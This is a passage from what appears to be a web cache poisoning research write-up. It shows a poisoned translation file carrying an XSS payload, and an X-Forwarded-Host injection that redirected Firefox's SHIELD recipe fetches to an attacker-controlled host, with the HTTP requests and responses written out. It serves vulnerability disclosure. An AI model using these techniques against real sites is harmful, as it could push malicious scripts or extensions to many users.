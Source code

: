  The file contains a map for translating phrases into the user's selected language. By creating our own translation file and using cache poisoning to point users toward that, we could translate phrases into exploits:
</p>
GET  /api/i18n/en HTTP/1.1 Host: portswigger-labs.net
<p>
 HTTP/1.1 200 OK ... {"Show more":"&lt;svg onload=alert(1)&gt;"}
</p>
<p>
 The end result? Anyone who viewed a page containing the text 'Show more' would get exploited.
</p>
Hijacking Mozilla SHIELD
<p>
 The 'X-Forwarded-Host' match/replace rule I configured to help with the last vulnerability had an unexpected side effect. In addition to the interactions from catalog.data.gov, I received some that were distinctly mysterious:
</p>
GET /api/v1/recipe/signed/ HTTP/1.1 Host: xyz.burpcollaborator.net User-Agent: Mozilla/5.0 … Firefox/57.0 Accept: application/json origin: null X-Forwarded-Host: xyz.burpcollaborator.net
<p>
 The
 <a href="https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties">
  'null' origin is quite rare by itself
 </a>
 and I'd never seen a browser issue a fully lowercase Origin header before. Sifting through proxy history logs revealed that the culprit was Firefox itself. Firefox had tried to fetch a list of 'recipes' as part of its
 <a href="https://wiki.mozilla.org/Firefox/Shield">
  SHIELD
 </a>
 system for silently installing extensions for marketing and research purposes. This system is probably best known for forcibly distributing a 'Mr Robot' extension, causing considerable
 <a href="https://www.cnet.com/news/mozilla-backpedals-after-mr-robot-firefox-misstep/">
  consumer backlash
 </a>
 .
</p>
<p>
 Anyway, it looked like the X-Forwarded-Host header had fooled this system into directing Firefox to my own website in order to fetch recipes:
</p>
GET /api/v1/ HTTP/1.1 Host: normandy.cdn.mozilla.net X-Forwarded-Host: xyz.burpcollaborator.net
<p>
 HTTP/1.1 200 OK {   "action-list": "https://xyz.burpcollaborator.net/api/v1/action/",   "action-signed": "https://xyz.burpcollaborator.net/api/v1/action/signed/",   "recipe-list": "https://xyz.burpcollaborator.net/api/v1/recipe/",   "recipe-signed": "https://xyz.burpcollaborator.net/api/v1/recipe/signed/",   … }
</p>
<p>
 Recipes look something like:
</p>
[{   "id": 403,   "last_updated": "2017-12-15T02:05:13.006390Z",   "name": "Looking Glass (take 2)",   "action": "opt-out-study",   "addonUrl": "https://normandy.amazonaws.com/ext/pug.mrrobotshield1.0.4-signed.xpi",   "filter_expression": "normandy.country in  ['US', 'CA']\n &amp;&amp; normandy.version &gt;= '57.0'\n)",   "description": "MY REALITY IS JUST DIFFERENT THAN YOURS", }]
<p>
 This system was using NGINX for caching, which was naturally happy to save my poisoned response and serve it to other users. Firefox fetches this URL shortly after the browser is opened and also periodically refetches it, ultimately meaning all of Firefox's tens of millions of daily users could end up retrieving recipes from my website.
</p>
<p>
 This offered quite a few possibilities. The recipes used by Firefox were
 <a href="https://github.com/mozilla-services/autograph/tree/master/signer/contentsignature">